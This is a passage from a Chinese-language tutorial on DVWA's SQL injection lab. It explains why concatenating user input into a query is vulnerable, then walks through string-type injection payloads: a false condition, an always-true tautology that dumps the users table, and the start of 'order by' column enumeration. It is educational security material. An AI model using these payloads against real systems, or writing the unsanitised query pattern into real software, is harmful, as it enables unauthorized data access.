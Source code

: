 ```php

        //Increase loop count
        $i++;
    }
    mysql_close();
}
```

以上是DVWA的SQL注入的靶场的源代码



## 示例的漏洞

代码在构建 SQL 查询语句时，直接将用户通过 `$_REQUEST['id']` 输入的值拼接到了 SQL 语句中（`$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";`），没有做任何的输入验证、过滤或者转义处理。

SQL注入产生的条件是：Web程序要接受用户的输入，并且用户的输入不再是原本的那个参数，而是变成了SQL语句中合法的一部分。



## 如何利用示例的漏洞

1.正常查询情况下，我们输入1，此时的查询语句是

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '1';
```

查询条件判断为真，返回user_id为1的用户数据；



2.我们尝试SQL注入，输入1‘ and '1' = '2 ，此时最终的查询SQL语句为：

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '1' and '1' = '2';
```

此时查询条件判断为假，就查不到想要的内容。



3.我们把条件改一下，输入1‘ or '1234' = '1234 ，此时最终的查询SQL语句为：

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1234' = '1234';
```

查询条件判断恒为真，返回users表中所有用户数据。



4.我们再修改一下条件，这次不用字符型的注入，用数字型的注入，为了方便之后查询字段数

```mysql
SELECT first_name, last_name FROM users WHERE user_id = '
/*
以下内容为我们传入的$id，先用一个单引号把前边的单引号闭合，然后order by 1 #，这里井号是要注释下一个单引号
*/
1' or 1 = 1 order by 1#
';
```
